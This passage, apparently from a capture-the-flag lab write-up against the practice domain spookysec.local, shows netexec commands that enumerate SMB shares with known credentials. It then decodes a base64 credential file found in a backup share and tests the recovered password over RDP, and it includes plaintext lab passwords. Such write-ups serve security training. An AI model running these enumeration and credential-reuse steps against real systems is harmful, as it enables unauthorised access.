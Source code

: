 ```
nxc smb spookysec.local -u svc-admin -p management2005 --shares
```
![](../attachment/bdb2858e173332fcc338c1725f76544e.png)
Enumerating shares we have backup

We find a credential file:
![](../attachment/afa6eb60f7e5433e96686a653de9e705.png)

Now decoding:
```
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```
We have credentials:
![](../attachment/ade894644fed2d0b053c3bd9e452b329.png)

We can try the credentials on rdp:
```
nxc rdp spookysec.local -u backup -p backup2517860
```
![](../attachment/1ce0af1e1060a6d825606def54259cbc.png)

We can login through rdp:
